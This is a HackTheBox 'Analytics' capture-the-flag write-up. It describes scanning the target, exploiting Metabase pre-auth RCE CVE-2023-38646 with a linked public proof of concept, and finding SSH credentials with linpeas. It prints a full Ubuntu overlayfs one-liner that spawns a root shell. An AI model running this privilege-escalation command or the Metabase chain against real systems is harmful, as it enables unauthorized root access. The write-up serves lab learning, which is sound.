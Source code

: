# HackTheBox Analytics


![Open Lightbox](../assets/analytics1.webp){ .glightbox .center width="550" }

I started the machine got the IP and did a Nmap scan, port 22(ssh) and port 80(http) were open

```bash
❯ sudo nmap -Pn -sT -sV 10.10.11.233  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 13:45 IST  
Nmap scan report for 10.10.11.233  
```

So I opened Firefox and put in the IP and got (analytical.htb)  
I added it to /etc/hosts

![Open Lightbox](../assets/analytics2.webp){ .glightbox .center width="500" }

So I opened Firefox and put in the IP and got (analytical.htb)

![Open Lightbox](../assets/analytics3.webp){ .glightbox .center width="500" }

Looked into the source page and found another link [<http://data.analytical.htb>] again added it to /etc/hosts.

![Open Lightbox](../assets/analytics4.webp){ .glightbox .center width="500" }

Got a Metabase sign-in page I tried logging in with a few different usernames and passwords but it failed so I looked at Google for clues and found out that there is an RCE present in Metabase and found info about the CVE-2023–38646.   
Reference:-  
<https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>

Now according to the POC, we have to retrieve the endpoint token so we have an endpoint
data.analytical.htb let’s capture the request in the burp suite.

![Open Lightbox](../assets/analytics5.webp){ .glightbox .center width="500" }

Found the set-up token now I have to look for an exploit honestly I tried 2–3 Exploits including Metasploit which also has the exploit for Metabase so finally found one that works for me.

<https://github.com/m3m0o/metabase-pre-auth-rce-poc>

And got a shell.

![Open Lightbox](../assets/analytics6.webp){ .glightbox .center width="500" }

Now as I searched around in the machine I found there is already a linpeas script in the /home/Metabase folder, so at the time I was playing the CTF there were 181 more people that were also playing with me someone must have put it there and made it easy for me too lol……  
I used the script and found the password for a user metanalytics and i used to ssh into the machine.

![Open Lightbox](../assets/analytics7.webp){ .glightbox .center width="500" }

I got the user flag but now I had to escalate the privilege to get the root flag. did the most basic thing check the OS version and if there are any vulnerabilities related to it got to know that it was running ubuntu 22.04.

![Open Lightbox](../assets/analytics8.webp){ .glightbox .center width="500" }

So did the Google dorking for the os version if any thing is there and obviously found a few 2 CVE and few more things.
Also found this code to escalate privilege.

```bash
unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap\_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")' 
```

And boom we got the root shell.


![Open Lightbox](../assets/analytics9.webp){ .glightbox .center width="500" }

Thank you for reading


